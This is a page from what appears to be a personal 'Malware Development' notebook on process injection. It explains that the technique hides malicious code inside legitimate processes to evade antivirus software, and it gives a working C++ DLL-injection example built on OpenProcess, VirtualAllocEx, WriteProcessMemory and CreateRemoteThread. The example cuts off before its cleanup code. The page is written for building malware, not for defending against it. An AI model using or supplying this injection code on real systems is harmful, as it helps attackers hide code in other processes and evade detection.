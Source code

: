 # Index 
- [[Malware Development]]
	- [[3. Common Malware Techniques]]
		- [[3.1 Process Injection Techniques]]
		- [[3.2 Persistence Mechanisms]]
		- [[3.3 Hooking Windows APIs]]
		- [[3.4 Packing & Encryption]]

# Process Injection
Process injection is a fundamental technique in malware development that involves injecting malicious code into the address space of another process. This technique is used to hide the malicious process under the guise of a legitimate one and avoid detection by antivirus software.

#### DLL Injection
DLL injection is one of the most common methods of process injection. It involves forcing a target process to load a malicious DLL. The malicious code is then executed within the context of that process.

Steps for DLL Injection:
1. Obtain a handle to the target process using `OpenProcess`.
2. Allocate memory in the target process using `VirtualAllocEx`.
3. Write the path of the DLL to be injected into the allocated memory with `WriteProcessMemory`.
4. Create a remote thread using `CreateRemoteThread` to execute `LoadLibrary` within the target process, which loads the DLL.

DLL Injection Example (C++):
```cpp
#include <windows.h>
#include <iostream>

int main() {
    const char* dllPath = "C:\\path\\to\\your.dll";  // Path to your DLL
    DWORD processID = 1234;  // Target process ID

    // Step 1: Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);
    if (!hProcess) {
        std::cerr << "Failed to open process." << std::endl;
        return 1;
    }

    // Step 2: Allocate memory in the target process
    LPVOID allocatedMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (!allocatedMemory) {
        std::cerr << "Failed to allocate memory in the target process." << std::endl;
        return 1;
    }

    // Step 3: Write the DLL path to the allocated memory
    WriteProcessMemory(hProcess, allocatedMemory, dllPath, strlen(dllPath) + 1, NULL);

    // Step 4: Create a remote thread to load the DLL
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, allocatedMemory, 0, NULL);
    if (!hThread) {
        std::cerr << "Failed to create remote thread." << std::endl;
        return 1;
    }

    // Wait for the remote thread to finish
    WaitForSingleObject(hThread, INFINITE);
```